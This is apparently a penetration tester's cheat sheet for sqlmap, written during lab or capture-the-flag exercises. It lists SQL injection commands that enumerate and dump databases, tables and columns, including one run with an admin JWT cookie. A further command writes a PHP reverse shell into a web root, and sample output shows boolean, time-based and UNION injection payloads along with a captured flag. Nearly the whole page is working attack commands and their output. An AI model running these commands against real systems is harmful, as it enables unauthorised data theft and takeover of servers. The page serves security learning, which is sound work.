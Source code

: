 ```yaml
---
title: Sqlmap 🪲
---
```

- Useful commands

```shell
sqlmap http://10.10.134.119/admin?user=3 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDc1NzM3Mzh9.EQ-QxUbiFb5WYxEP6e8izPs_r4iGouEevWSjuhE1ZaM' --technique=U --delay=2 --dump
```

- Command with a request with no query params on url:
	- First, copy the request captured with Burp to a file
	- Then:

```shell
sqlmap -r request.txt

# Then do
sqlmap -r request.txt --dbs

# Attack the database you want

sqlmap -r request.txt -D <TABLE_NAME> --tables --dump

# a more complete command
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3
```

---

## Get a reverse shell with slqmap:

```shell
sqlmap -r request.txt --dbs --file-dest=/var/www/html/reverse.php --file-write=./reverse.php
```

- Now open open your browser: `http://IP_HOST/reverse.php`

---
## Display databases when performing a successful attack

If you got a successful payload, then do this:
- Extract databases by adding `--dbs` to the original attack:
	- Just say `y` and will load the previous results.

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL --dbs

# Output may be like:
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:27:40] [INFO] fetching database names
[22:27:40] [INFO] fetching number of databases
[22:27:40] [INFO] retrieved: 2
[22:27:42] [INFO] retrieved: informati
on_schema
[22:28:47] [INFO] retrieved: sqhell_1
available databases [2]:
[*] information_schema
[*] sqhell_1
```

- Now that you know the databases, get the tables of the one you are interested:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME --tables

# Output may be like:
[22:31:23] [INFO] retrieved: 
[22:31:28] [INFO] adjusting time delay to 1 second due to good response times
flag
[22:31:41] [INFO] retrieved: hits
Database: sqhell_1
[2 tables]
+------+
| flag |
| hits |
+------+
```

- Now list columns of a database table:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME -T TABLE --columns

# Output may be like:
[22:33:58] [INFO] retrieved: 
[22:34:03] [INFO] adjusting time delay to 1 second due to good response times
id
[22:34:09] [INFO] retrieved: int
[22:34:21] [INFO] retrieved: flag
[22:34:35] [INFO] retrieved: varchar(250)
Database: sqhell_1
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(250) |
| id     | int          |
+--------+--------------+
```

- Now dump it the table's column:

```shell
sqlmap -u 'http://domain.com/path' -H 'X-Forwarded-For: YOUR_IP*' --risk 3 --level 5 --dbms MySQL -D DATBASE_NAME -T TABLE -C COLUMN --dump

# Output may be like:

[22:36:07] [INFO] adjusting time delay to 1 second due to good response times
THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}
Database: sqhell_1
Table: flag
[1 entry]
+---------------------------------------------+
| flag                                        |
+---------------------------------------------+
| XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX |
+---------------------------------------------+
```

## Register forms

```shell
sqlmap -u 'http://domain.com/register/user-check?username=gitblanc' -p username --risk 3 --level 5 --dbms MySQL

# Output may be like:
[22:53:35] [INFO] checking if the injection point on GET parameter 'username' is a false positive
GET parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 468 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-3381' OR 3435=3435-- ihVx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gitblanc' AND (SELECT 8410 FROM (SELECT(SLEEP(5)))sPpn)-- xphf
---
```

- Then you can try to obtain databases by adding at the end `--dbs`
- Then obtain tables by adding `-D DATBASE_NAME --tables` replacing `--dbs`
- Then obtain columns by adding `-T TABLE --columns` replacing `--tables`
- Then dump a columns by adding `-C COLUMN --dump` replacing `--columns`

## URL parameters

- If you find something like: `http://10.10.115.157/user?id=1`
- Try this:

```shell
sqlmap -u 'http://10.10.115.157/user?id=1' -p id --risk 3 --level 5 --dbms MySQL

# Output may be like:
[23:02:27] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3835=3835

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5327 FROM (SELECT(SLEEP(5)))tHWS)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-4293 UNION ALL SELECT CONCAT(0x7162787171,0x5648626b46674875456f46496a4c746c5a4e4462736575774246467a477a70414d655351486f546e,0x717a707671),NULL,NULL-- -
---

```